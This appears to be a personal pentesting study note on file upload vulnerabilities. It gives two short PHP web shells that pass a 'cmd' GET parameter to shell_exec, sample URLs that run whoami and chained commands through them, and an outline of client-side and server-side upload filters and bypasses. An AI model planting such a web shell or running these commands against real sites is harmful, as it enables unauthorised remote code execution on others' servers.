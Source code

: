 </div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- Remote code execution
- It's worth noting that in a [[routed application\|routed application]], this method of attack becomes a lot more complicated and a lot less likely to occur. Most modern web frameworks are routed programmatically.

index.php

	<?php
	echo "hola"
	?>

cmd.php

``` php
<?php
	echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"
?>
```

``` php
<?php
	echo shell_exec($_GET['cmd']);
?>
```

to check if I can exec command

	localhost/cmd.php?cmd=whoami

exec ```cd .. && pwd```

``` bash
localhost/cmd.php?cmd=cd .. %26%26 pwd 
localhost/cmd.php?cmd=cd ..; pwd
```

</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



- **none** of these filters are **perfect**
- they will usually be used in conjunction with each other, providing a **multi-layered filter**, thus increasing the security of the upload significantly.
- Any of these filters can all be applied client-side, server-side, or both.
- **different** frameworks and languages come with their own inherent **methods of filtering** and validating uploaded files
- E.g. until PHP major version five, it was possible to bypass an extension filter by appending a null byte
## Client-side filtering
- it's running in the user's browser
- JavaScript is pretty much ubiquitous as the client-side scripting language
- In the context of file-uploads, this means that the filtering occurs before the file is even uploaded to the server.
- server-side language PHP, ASP, C#, Node.js, Python, Ruby on Rails, and a variety of others
[[Bypassing Client-Side Filtering]]
## Server-side filtering
- tends to be more difficult to bypass
- n most cases it will also be impossible to bypass the filter completely
- instead we have to form a **payload** which conforms to the filters in place, but still allows us to execute our code.